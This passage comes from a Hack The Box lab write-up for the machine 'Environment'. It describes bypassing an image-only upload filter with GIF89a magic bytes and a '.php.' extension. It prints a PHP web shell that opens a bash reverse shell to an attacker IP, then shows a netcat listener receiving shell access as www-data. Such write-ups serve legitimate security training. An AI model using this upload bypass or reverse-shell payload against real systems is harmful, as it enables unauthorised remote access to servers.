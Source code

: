 Replaying the request in browser:

![Pasted image 20250905160816.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250905160816.png)
## First Access 

Looking how the upload works, it’s checking for images only (by content and file extension), so we can try to bypassing this adding the image magic bytes at the top of our **.PHP** file and changing its extension.  
If we try to upload it, the file does indeed bypass the “image only” check, but going to the file’s URL, it doesn’t seems to be executing the revshell.  
After more attempts and paying more attention to how the upload function manipulates the file and generates the URL, we find that the extension that works is: **.php.**.  
Adding the final dot to the file extension will bypass completely the upload function and allow us to execute the [Reverse Shell](../../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md).

First we create the file with [Nano](../../../3%20-%20Tags/Hacking%20Tools/Nano.md):

```php
GIF89a
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.56/1337 0>&1'"); ?>
```

We setup a listener with [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and upload the shell, then go to the URL of the file:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Environment]
└─$ nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.67] 45812
bash: cannot set terminal process group (834): Inappropriate ioctl for device
bash: no job control in this shell
www-data@environment:~/app/storage/app/public/files$ whoami
whoami
www-data
www-data@environment:~/app/storage/app/public/files$ cd /home
cd /home
www-data@environment:/home$ ls
ls
hish
```